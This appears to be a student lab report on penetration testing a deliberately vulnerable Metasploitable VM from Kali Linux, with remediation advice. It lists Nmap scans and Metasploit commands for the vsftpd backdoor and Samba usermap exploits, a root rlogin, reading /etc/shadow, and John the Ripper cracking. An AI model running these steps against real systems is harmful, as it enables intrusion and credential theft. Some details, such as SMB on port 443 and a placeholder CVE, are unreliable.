 Network Penetration Testing with Real-
World Exploits
and Security Remediation



Project objectives –
The objective of this project is to simulate real-world network penetration testing in
a Controlled environment using Kali Linux and a vulnerable Metasploitable VM. It
includes Scanning, reconnaissance, enumeration, exploitation, user privilege
escalation, password Cracking, and providing remediation.



Introduction –
Penetration testing is a critical component in identifying vulnerabilities and
assessing the security posture of systems. This project involves ethical hacking
techniques to exploit and analyze a target system. It replicates real-world exploitation
techniques to uncover system weaknesses and recommend appropriate remediations.



Theory About the Project –
Network penetration testing is the process of evaluating a system’s network
security by simulating Attacks from malicious outsiders and insiders. The goal is to find
security loopholes before attackers Do. It includes multiple phases:
1. Scanning – Detecting devices and open ports.
2. Reconnaissance – Gathering information about services and OS.
3. Enumeration – Extracting system and service-specific data.
4. Exploitation – Leveraging vulnerabilities to gain unauthorized access.
5. Privilege Escalation – Creating a new user with elevated privileges.
6. Password Cracking – Retrieving passwords from captured hashes.
7. Remediation – Providing fixes and updates for identified vulnerabilities.


Project requirements –
Two Operating System-
1. Kali Linux (Attacking machine)
2. Metasploitable machine ( Target Machine)




Tools Details:
• Kali Linux - The attacker machine, containing pre-installed penetration testing
tools.
• Metasploitable - A vulnerable machine to practice attacks on.
• Nmap - For network scanning, port discovery, OS
detection, and service version enumeration.
• Metasploit Framework - For exploiting known vulnerabilities in services running
on the target.
• John the Ripper - For cracking hashed passwords obtained from /etc/shadow
• Netcat
• VM Manager (VirtualBox/VMware)


Tasks
Network Scanning
Task 1: Basic Network Scan
Step 1: Open a terminal on your Kali Linux machine.
Step 2: Run a basic scan on your local network.
Nmap -v YOUR_IP_RANGE
• nmap -v 192.168.160.131



Task 2 – Reconnaissance
Task 1: Scanning for hidden Ports
Step 1: To scan for hidden ports , we have to scan whole range of ports on that specific
targeted ip address.
nmap -v -p- YOUR_TARGET_IP_ADDRESS
• nmap -v -p- 192.168.160.131
Output:
Total Hidden Ports = 7
List of hidden ports
1. 8787
2. 36588
3. 53204
4. 53452
5. 59437
6. 3632
7. 6697



Task 2: Service Version Detection
Step 1: Use the -sV option to detect the version of services running on open ports:
nmap -v -sV YOUR_TARGET_IP_ADDRESS
• nmap -v -sV 192.168.160.131
Output:


Task 3: Operating System Detection
Step 1: Use the -O option to detect the operating systems of devices on the network:
Nmap -v -O YOUR_TARGET_IP_ADDRESS
• nmap -v -O 192.168.160.132
Output:
Task 3 - Enumeration
Target IP Address ENTER_YOUR_TARGET_IP_ADDRESS
Operating System Details (ADD_YOUR_TARGET_OS_DETAILS)
Target IP Address – 192.168.160.131
Operating System Details –
MAC Address: 00:0C:29:AB:A7:B8 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Services Version with open ports (LIST ALL THE OPEN PORTS EXCLUDING HIDDEN
PORTS)
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 2.3.4
22/tcp open ftp OpenSSH 4.7p1 Debian
8ubuntu1 ( protocol 2.0)
23/tcp Open telnet Linux telnetd
25/tcp open smtp Postfix smtpd
53/tcp open domain ISC BIND 9.4.2
80/tcp open http Apache httpd
2.2.8((Ubuntu) DAV/2)
111/tcp open rpcbind 2 (RPC #100000)
139/tcp open netbios-ssn Samba smbd 3.X – 4.X
(workgroup:
WORKGROUP)
445/tcp open netbios-ssn Samba smbd 3.X – 4.X
(workgroup:WORKGROUP)
512/tcp open exec Netkit-rsh rexecd
513/tcp open login OpenBSD or Solaris
rlogind
514/tcp open tcpwrapped
1099/tcp open java-rmi GNU Classpath
grmiregistry
1524/tcp open bindshell Metasploitable root shell
2049/tcp open nfs 2-4(RPC#100003)
2121/tcp open ftp ProFTPD 1.3.1
3306/tcp open mysql MySQL 5.0.51a-3ubuntu5
5432/tcp open postgresql PostgreSQL DB 8.3.0-8.3.7
5900/tcp open vnc VNC ( protocol 3.3)
6000/tcp open X11 ( access denied)
6667/tcp open irc UnreallRCd
8009/tcp open ajp13 Apache Jserv ( Protocol
v1.3)
8180/tcp open http Apache Tomcat/Coyote
JSP engine 1.1
Hidden Ports with Service Versions (ONLY HIDDEN PORTS)
1. 8787/tcp open drb Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
2. 3632/tcp open distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
3. 6697/tcp open irc UnrealIRCd
4. 35851/tcp open mountd 1-3 (RPC #100005)
5. 36571/tcp open nlockmgr 1-4 (RPC #100021)
6. 44585/tcp open java-rmi GNU Classpath grmiregistry
7. 51228/tcp open status 1 (RPC #100024)



Task 4- Exploitation of services
1. vsftpd 2.3.4 (Port 21 - FTP)
• msfconsole
• use exploit/unix/ftp/vsftpd_234_backdoor
• set RHOST 192.168.160.131
• set RPORT 21
• run
2. SMB 3.0.20-Debian (Port 443)
• search smb version
• use auxiliary/scanner/smb/smb_version
• use exploit/multi/samba/usermap_script
• show options
• set RHOST 192.168.160.131
• run
3. Exploiting R Services (Port 512,513,514)
• nmap -p 512,513,514 -sC -sV –script=vuln 192.168.160.131
• rlogin -l root 192.168.160.131


Task 5 - Create user with root permission
adduser your_name
Set a simple password example 12345 or hello or 987654321
Get the details of user in /etc/passwd
Enter details of the new user you have added in Metasploit
• adduser minakshi
• password hello
• sudo usermod -aG sudo minakshi
• cat /etc/passwd | grep minakshi
• minakshi:x:1002:1002:,,,:/home/minakshi:/bin/bash
• sudo cat /etc/shadow | grep minakshi0x ra
• minakshi:$y$j9T$ep3Qv2Hy8a5uO71kK7yOm0$rxMKpQlW2n/XflTYSpcCljAKbKR
OVgZHXHr50E5ed.4:20223:0:99999:7:::


Task 6 – Cracking password hashes
• nano minakshi_hash.txt
• /john minakshi_hash.txt
• /john minakshi_hash.txt –show


Task 7 – Remediation
1. FTP Service (vsftpd)
• Current Version: vsftpd 2.3.4
• Latest Version: vsftpd 3.0.5 (2025)
• Vulnerability:
➔ Backdoor in 2.3.4 allows root shell access via crafted payload.
➔ CVE: CVE-2011-2523
• Impact: Full system compromise by unauthenticated attackers.
• Remediation:
➔ Upgrade to vsftpd 3.0.5 (fully patched)
➔ Or disable FTP entirely and switch to SFTP (via SSH)
2. Samba SMB (Port 443)
• Current Version: Samba 3.0.20
• Latest Version: Samba 4.20.1 (May 2025)
• Vulnerabilities:
➔ Remote Code Execution (RCE)
➔ Session hijacking
➔ Arbitrary file read/write
➔ CVE-2007-2442: Command injection via username map script
➔ CVE-2017-XXXX: Arbitrary code execution
• Impact: Attackers can gain shell access, move laterally, and steal credentials.
• Remediation:
➔ Upgrade to Samba 4.20.1
➔ Disable SMBv1, restrict to trusted IPs only
➔ Harden /etc/samba/smb.conf:
➔ Disable guest access
➔ Enable detailed logging
3. R Services (Ports 512–514)
• Services Affected: rexec, rlogin, rsh (legacy UNIX services)
• Status: Obsolete, insecure, and deprecated
• Vulnerabilities:
➔ Sends plaintext credentials
➔ Vulnerable to MITM and replay attacks
➔ Weak or no authentication
➔ CVE-1999-0651: Allows unauthorized remote access if
.rhosts/hosts.equiv misconfigured
• Impact: Network users can impersonate others and execute remote commands
• Remediation:
➔ Immediately disable rexec, rlogin, and rsh services
➔ Replace with SSH-based alternatives
• Reference: MITRE CVE-1999-0651
Major Learning From this project –
• Developed a comprehensive understanding of penetration testing workflow.
• Gained hands-on experience with Nmap, Metasploit, and John the Ripper.
• Learned to responsibly report and remediate security issues.
• I learned how to create and manage users in Linux and how their details are
stored in system files.
• I understood how passwords are saved in hashed format and how they can
be cracked using tools like John the Ripper with wordlists.
• I also used Nmap to scan systems for open ports, detect services running on
them, and check the operating system. For this, I used commands like nmap
-v to find open ports, nmap -sV to find service versions, and nmap -O to
detect the OS.
• I explored services like SMB and R services, identified outdated or risky
ones, and understood why they should be updated or disabled.
• Understood vulnerabilities associated wit

